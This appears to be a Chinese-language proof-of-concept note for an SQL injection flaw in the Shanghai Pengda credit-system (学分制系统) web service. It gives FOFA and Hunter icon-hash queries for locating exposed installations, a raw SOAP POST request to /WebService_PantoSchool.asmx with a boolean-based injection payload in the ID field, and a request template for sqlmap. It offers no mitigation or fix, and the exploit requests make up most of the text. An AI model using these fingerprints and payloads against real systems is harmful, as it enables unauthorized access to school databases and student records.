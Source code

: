 # 一、漏洞简介
上海鹏达计算机系统开发有限公司，成立于1996年，上海睿泰企业管理集团成员，位于上海市，是一家以从事软件和信息技术服务业为主的企业。上海鹏达计算机系统开发有限公司学分制系统存在SQL注入漏洞。

# 二、影响版本
+ 上海鹏达计算机系统开发有限公司学分制系统

# 三、资产测绘
+ fof：`icon_hash="-1632820573"` 
+ hunter：`web.icon=="ed77bfdfc1820162d9a33434bae2e07c"`
+ 特征

![](images/1718425232096-3d697118-09f2-4274-a000-48bcc9b8c44a.png)

# 四、漏洞复现
```java
POST /WebService_PantoSchool.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=e5l5acb3exqi5bmtezazrjsg
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetCalendarContentById
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetCalendarContentById>
         <!--type: string-->
         <tem:ID>-7793' OR 7994 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(120)+CHAR(113)+CHAR(113)+(SELECT (CASE WHEN (7994=7994) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(118)+CHAR(112)+CHAR(106)+CHAR(113))) AND 'qciT'='qciT</tem:ID>
      </tem:GetCalendarContentById>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1718425262793-2cfae79e-c2a1-47b3-840e-6d7c0941b842.png)

sqlmap

```java
POST /WebService_PantoSchool.asmx HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: ASP.NET_SessionId=e5l5acb3exqi5bmtezazrjsg
Upgrade-Insecure-Requests: 1
Priority: u=1
SOAPAction: http://tempuri.org/GetCalendarContentById
Content-Type: text/xml;charset=UTF-8
Host: 
Content-Length: 314

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:tem="http://tempuri.org/">
   <soapenv:Header/>
   <soapenv:Body>
      <tem:GetCalendarContentById>
         <!--type: string-->
         <tem:ID>1</tem:ID>
      </tem:GetCalendarContentById>
   </soapenv:Body>
</soapenv:Envelope>
```

![](images/1718425284144-da2a132a-cb53-4f52-bd43-628940b84343.png)

